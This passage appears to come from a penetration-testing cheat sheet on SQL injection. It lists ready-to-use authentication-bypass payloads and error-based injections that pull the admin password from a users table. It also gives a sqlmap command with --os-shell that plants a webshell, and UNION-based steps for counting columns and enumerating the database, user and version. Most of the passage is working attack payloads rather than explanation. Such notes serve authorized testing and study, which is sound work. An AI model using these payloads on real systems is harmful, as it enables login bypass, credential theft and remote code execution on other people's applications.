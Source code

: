 Auth bypass (try both username and password fields):

```
' or 1=1 -- #  <-- MySQL,MSSQL
' || '1'='1' -- #  <-- PostgreSQL
admin' or 1=1 -- #
admin') or (1=1 -- #
```

Extracting data from error messages:

```
' or 1=1 in (select @@version) -- #
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- #
```

Pro tip for `sqlmap`: if you save the GET/POST request of a SQLi attempt in burp,
you can pass that request file to `sqlmap` as a template for it's requests. You
can also pass it the webroot and `--os-shell` args to get it to give you a
webshell:

```sh
sqlmap -r post.txt -p FIELDNAME --os-shell --web-root "/var/www/html/tmp"
```


#### 2.6.3.1 UNION SQLi technique

The UNION SQL injection technique is helpful when the result of the original SQL
query is output/displayed to the user. Using UNION, we can ask for extra data
from the database that wasn't originally intended to be shown to the user (like creds).

For UNION SQLi attacks to work, we first need to satisfy two conditions:
- The injected UNION query has to include the same number of columns as the original query.
- The data types need to be compatible between each column.

First, determine how many columns are in the original query:

```sql
' ORDER BY 1-- #
```

Increment the value using binary search (2, 4, 8,...) until it errors out, then
use binary search to isolate the highest value that does NOT error out. This
is the number of columns in the original query.

Next, (optionally) figure out what column index goes where in your output.

```sql
-- assuming 3 columns from ORDER BY test
' union all select 1,2,3 -- #
```

Alternatively, use enumeration functions in output columns, shifting what goes
where in trial-and-error fashion until you get useful output:

```sql
-- assuming 5 columns from ORDER BY test, shifting enumeration output
' UNION SELECT database(), user(), @@version, null, null -- #
' UNION SELECT null, null, database(), user(), @@version -- #
```
